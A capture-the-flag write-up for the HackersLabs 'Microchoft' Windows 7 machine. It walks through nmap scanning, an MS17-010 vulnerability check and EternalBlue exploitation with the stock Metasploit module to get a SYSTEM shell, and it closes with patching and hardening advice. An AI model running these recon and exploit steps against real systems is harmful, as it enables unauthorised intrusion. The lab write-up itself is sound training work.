



# Microchoft - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackersLabs |
| **Operating System** | Windows |
| **Difficulty** | Easy |
| **IP Address** | `192.168.86.85` |
| **Date** | March 1, 2026 |

---

## 1. Executive Summary
The exploitation of the Microchoft machine involved targeting a critical vulnerability in the Server Message Block (SMB) protocol. After identifying the target via network scanning, enumeration revealed that the system was running an unpatched version of Windows vulnerable to MS17-010 (EternalBlue). By leveraging a well-known exploit through Metasploit, I gained immediate NT AUTHORITY\SYSTEM privileges (root access). This allowed for full system compromise and the retrieval of flags from multiple user desktops without the need for further privilege escalation.

---

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning
The target IP was identified using arp-scan. I used the whichSystem.py script to determine the OS; a TTL of 128 (or similar) typically indicates a Windows environment.
```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.85
```
Subsequently, a full port scan was executed:
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.85 -oG allPorts
extractPorts allPorts
nmap -p80 -sCV 192.168.86.85 -oN target
```

**Key Findings:**

| PORT | SERVICE | VERSION |
| :--- | :--- | :--- |
| **135** | msrpc |  Microsoft Windows RPC |
| **139** | netbios-ssn |  Microsoft Windows netbios-ssn |
| **445** | microsoft-ds |  Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds |
| **49152-7** | msrpc |  Microsoft Windows RPC |

Then I used nmap to address is the machine is vulnerable to EternalBlue finding that it's vulnerable
```bash
nmap --script smb-vuln-ms17-010 -p445 192.168.86.85 -oN isVuln
```



## 3. Exploitation (Foothold)
### 3.1 Remote Kernel Exploitation (MS17-010)
Since the machine was vulnerable to a remote kernel-level exploit, I utilized the Metasploit Framework to gain a Meterpreter shell.
```metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.86.85
run
```
The exploit was successful, providing immediate SYSTEM level access. I then proceeded to navigate the file system to locate the flags.
```DOS
C:\Windows\system32> getuid
Server username: NT AUTHORITY\SYSTEM

C:\Windows\system32> dir C:\Users\Admin\Desktop
C:\Windows\system32> dir C:\Users\Lola\Desktop
```


## 4. Flags & Proof
Lola



Root



## 5. Remediation & Hardening
1. Patch Management: Install the official security update from Microsoft (MS17-010) to patch the SMB vulnerability.
2. Disable SMBv1: Legacy SMBv1 is highly insecure and should be disabled in favor of SMBv2 or SMBv3.
3. Firewall Configuration: Restrict access to ports 139 and 445. These should only be accessible to trusted internal networks and never exposed to the public internet.
4. Endpoint Protection: Deploy an Antivirus/EDR solution capable of detecting memory injection and exploitation attempts like EternalBlue.

Authored by: Brutotes
[⬅️ Back to Home](../../README.md)